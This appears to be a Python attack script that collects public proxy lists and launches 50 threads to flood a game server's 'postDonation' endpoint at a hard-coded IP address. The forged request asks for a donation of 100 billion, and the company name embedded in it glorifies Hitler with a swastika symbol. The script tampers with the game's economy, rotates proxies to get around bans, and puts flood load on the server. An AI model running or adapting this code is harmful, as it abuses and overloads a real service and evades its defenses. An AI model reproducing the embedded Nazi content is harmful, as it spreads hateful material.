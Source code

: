 import requests
import concurrent.futures
import time
import random
import threading
from queue import Queue, Empty
from datetime import datetime

# Configuration
MAX_WORKERS = 50
REQUEST_TIMEOUT = 10
PROXY_FETCH_INTERVAL = 120  # seconds
REQUESTS_PER_BATCH = 1000
RETRY_LIMIT = 3
THROTTLE_DELAY = 0.1  # seconds between requests

# Proxy sources
PROXY_SOURCES = [
    "https://www.proxy-list.download/api/v1/get?type=http",
    "https://api.proxyscrape.com/v2/?request=getproxies&protocol=http&timeout=10000&country=All",
    "https://raw.githubusercontent.com/TheSpeedX/PROXY-List/master/http.txt"
]

# Donation URL
DONATION_URL = (
    "http://52.24.104.170:8086/RestSimulator?"
    "Operation=postDonation&"
    "available_patriotism=0&"
    "company_id=4451734&"
    "company_name=%E2%9C%A0+F%C3%BChrer+und+Reichskanzler+%E5%8D%90+%28U%2B5350%29+%F0%9F%9B%A1%EF%B8%8F+%F0%9F%A6%85+%E2%9A%94%EF%B8%8F++&"
    "country=Antarctica&"
    "donation_sum=100000000000&"
    "donation_type=0&"
    "sender_company_id=4451734&"
    "user_id=16664893D4AB4748887BE0F6F0B98B53&"
    "version_code=22&"
    "war_id=55134"
)

# Headers
HEADERS = {"User-Agent": "android-asynchttp//loopj.com/android-async-http"}

# Log files
LOG_FILE = "response_log.txt"
ERROR_LOG_FILE = "error_log.txt"

# Global flags and queues
shutdown_event = threading.Event()
proxies = Queue()

def fetch_proxies():
    """Fetch proxy list from sources and populate the proxy queue."""
    all_proxies = set()
    for url in PROXY_SOURCES:
        try:
            print(f"[{datetime.now()}] Fetching proxies from {url}...")
            resp = requests.get(url, timeout=15)
            resp.raise_for_status()
            lines = resp.text.splitlines()
            proxies_found = [p.strip() for p in lines if p.strip()]
            all_proxies.update(proxies_found)
        except Exception as e:
            print(f"[{datetime.now()}] Error fetching from {url}: {e}")

    # Clear old proxies  
    while not proxies.empty():  
        try:  
            proxies.get_nowait()  
        except Empty:  
            break  

    for proxy in all_proxies:  
        proxies.put(proxy)  

    print(f"[{datetime.now()}] Total proxies fetched: {len(all_proxies)}")

def make_request():
    """Attempt a single request using a proxy with retries."""
    for attempt in range(RETRY_LIMIT):
        if shutdown_event.is_set():
            return

        try:  
            proxy = proxies.get(timeout=10)  
        except Empty:  
            fetch_proxies()  
            continue  

        proxy_dict = {"http": f"http://{proxy}", "https": f"http://{proxy}"}  

        try:  
            print(f"[{datetime.now()}] Using proxy: {proxy}")  
            response = requests.get(DONATION_URL, headers=HEADERS, proxies=proxy_dict, timeout=REQUEST_TIMEOUT)  
            response.raise_for_status()  

            with open(LOG_FILE, "a") as log:  
                log.write(f"{datetime.now()} - Success: {proxy}\n{response.text[:500]}\n\n")  

            print(f"[{datetime.now()}] Success with proxy: {proxy}")  
            return  # Exit after success  

        except Exception as e:  
            with open(ERROR_LOG_FILE, "a") as error_log:  
                error_log.write(f"{datetime.now()} - {proxy} - Error: {e}\n")  
            print(f"[{datetime.now()}] Failed with {proxy}: {e}")  

        finally:  
            if attempt == RETRY_LIMIT - 1:  
                print(f"[{datetime.now()}] Removing bad proxy: {proxy}")  
            else:  
                proxies.put(proxy)  

        time.sleep(THROTTLE_DELAY)

def worker():
    """Worker thread to perform repeated requests."""
    while not shutdown_event.is_set():
        make_request()

def main():
    """Main execution function."""
    fetch_proxies()

    threads = []  
    for _ in range(MAX_WORKERS):  
        t = threading.Thread(target=worker)  
        t.start()  
        threads.append(t)  

    try:  
        last_fetch_time = time.time()  
        while not shutdown_event.is_set():  
            time.sleep(REQUESTS_PER_BATCH * THROTTLE_DELAY)  

            if time.time() - last_fetch_time > PROXY_FETCH_INTERVAL:  
                fetch_proxies()  
                last_fetch_time = time.time()  

    except KeyboardInterrupt:  
        print(f"\n[{datetime.now()}] Shutting down gracefully...")  
        shutdown_event.set()  

    finally:  
        print(f"[{datetime.now()}] Waiting for threads to finish...")  
        for t in threads:  
            t.join()  
        print(f"[{datetime.now()}] All threads completed. Program exited successfully.")

if __name__ == "__main__":
    main()